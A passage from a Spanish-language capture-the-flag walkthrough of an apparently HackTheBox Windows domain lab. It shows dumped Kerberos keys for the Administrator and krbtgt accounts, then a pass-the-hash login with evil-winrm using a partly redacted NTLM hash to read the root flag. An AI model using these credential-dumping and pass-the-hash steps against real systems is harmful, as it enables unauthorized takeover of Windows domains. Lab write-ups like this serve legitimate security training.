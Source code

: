 ~~~
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
<SNIP>
~~~
De esa forma de obtiene el hash NTLM de administrator.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Iniciando sesion con winrm y el hash NTLM obtenida se puede ver la root flag, que es el objetivo de la maquina.
~~~powershell
evil-winrm -i 10.10.10.175 -u administrator -H 82<SNIP>8e
                                    
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
<Encuentre su propio root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

